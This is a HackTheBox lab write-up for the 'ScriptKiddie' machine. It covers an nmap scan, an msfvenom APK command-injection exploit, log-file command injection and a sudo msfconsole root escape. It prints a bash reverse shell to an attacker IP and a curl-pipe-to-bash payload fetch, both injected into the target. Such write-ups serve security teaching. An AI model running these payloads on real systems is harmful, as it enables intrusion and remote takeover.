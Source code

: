 ```yaml
---
title: "HackTheBox - ScriptKiddie"
author: Nasrallah
description: ""
date: 2023-01-29 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, cve, commandinjection, sudo, msfvenom]
img_path: /assets/img/hackthebox/machines/scriptkiddie
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing **ScriptKiddie** from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.226
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

there are two open ports, port 22 running OpenSSh and port 80 running Werkzeug http webserver with python 3.8.5

## Web

Let's check the web page.

![](1.png)

Here we see this hacker has setup this web page to run nmap scans, generate payloads with msfvenom and search for exploits with searchsploit.

The forms in this page are not injectable, everything is sanitized.

Looking out for Msfvenom with `searchsploit` we find that it has a command injection vulnerability.

```terminal
$ searchsploit msfvenom
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Metasploit Framework 6.0.11 - msfvenom APK template command injection                                                       | multiple/local/49491.py
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

# **Foothold**

Let's copy the exploit to our directory using `searchsploit -m multiple/local/49491.py`.

Inside the the exploit there is a variable called `payload`, which is the command that's going to get executed at the target machine, that we need to change.

I'll first create a shell script that contains a reverse shell, then we host the file on an http server.

```terminal
$ cat shell.sh
bash -i >& /dev/tcp/10.10.17.90/1234 0>&1
```

Then we set the payload value to `'curl 10.10.17.90/shell.sh | bash'` which is going to call for our reverse shell script and pip it to bash.

Now let's generate the malicious apk file.

![](2.png)

Let's go back too the web page and upload the evil.apk file

![](3.png)

Now setup a listener and click generate.

![](4.png)

# **Privilege Escalation**

On pwn's home directory, we find the following shell script.

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi

```

This script reads the `/home/kid/logs/hackers` file, use `cut` to set the delimiter to `space`, skips the first two fields and reads whatever after that as ip and pass it to a nmap scan.

We can easily inject that by putting our command after the second field.

First we put a semicolon to break out from the nmap scan, then we put the same command we used earlier to get a shell.

```bash
echo 'a a ;curl 10.10.17.90/shell.sh | bash' >> hackers
```

We setup a listener and run the command above.

![](5.png)

We got a shell as pwn, now let's run `sudo -l`

```terminal
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

We can run msfconsole as root.

![](6.png)

Checking that entry on GTFOBins, we see that we can run the following command to get root.

```terminal
sudo msfconsole
msf6 > irb
>> system("/bin/sh")
```

![](7.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).